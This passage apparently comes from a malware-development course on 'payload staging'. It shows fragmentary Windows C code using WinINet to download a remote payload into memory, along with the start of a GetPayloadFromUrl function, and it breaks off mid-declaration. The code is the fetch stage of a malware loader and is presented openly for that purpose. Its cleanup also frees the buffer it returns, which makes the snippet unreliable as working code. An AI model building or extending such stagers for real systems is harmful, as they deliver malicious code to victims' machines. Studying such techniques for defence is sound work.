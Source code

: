 ```
			pBytes = (PBYTE)LocalAlloc(LPTR, dwBytesRead);
		else
			// Otherwise, reallocate the pBytes to equal to the total size, sSize.
			// This is required in order to fit the whole payload
			pBytes = (PBYTE)LocalReAlloc(pBytes, sSize, LMEM_MOVEABLE | LMEM_ZEROINIT);

		if (pBytes == NULL) {
			return FALSE;
		}

		// Append the temp buffer to the end of the total buffer
		memcpy((PVOID)(pBytes + (sSize - dwBytesRead)), pTmpBytes, dwBytesRead);

		// Clean up the temp buffer
		memset(pTmpBytes, '\0', dwBytesRead);

		// If less than 1024 bytes were read it means the end of the file was reached
		// Therefore exit the loop
		if (dwBytesRead < 1024) {
			break;
		}

		// Otherwise, read the next 1024 bytes
	}

	// Clean up
	InternetCloseHandle(hInternet);
	InternetCloseHandle(hInternetFile);
	InternetSetOptionW(NULL, INTERNET_OPTION_SETTINGS_CHANGED, NULL, 0);
	LocalFree(pTmpBytes);
	LocalFree(pBytes);

	return TRUE;
}


```
### **Payload Staging Final - Code Snippet**

The `GetPayloadFromUrl` function now takes 3 parameters:

* `szUrl`The URL of the payload.
* `pPayloadBytes` - Returns as the base address of the buffer containing the payload.
* `sPayloadSize` - The total size of the payload that was read.

The function will also correctly closes the HTTP/S connections once the retrieval of the payload has been completed.


```
BOOL GetPayloadFromUrl(LPCWSTR szUrl, PBYTE* pPayloadBytes, SIZE_T* sPayloadSize) {

	BOOL		bSTATE            = TRUE;

	HINTERNET	hInternet         = NULL,
			    hInternetFile     = NULL;

	DWORD		dwBytesRead       = NULL;

	SIZE_T		sSize             = NULL;
	PBYTE		pBytes            = NULL,
			    pTmpByte          = NULL;



```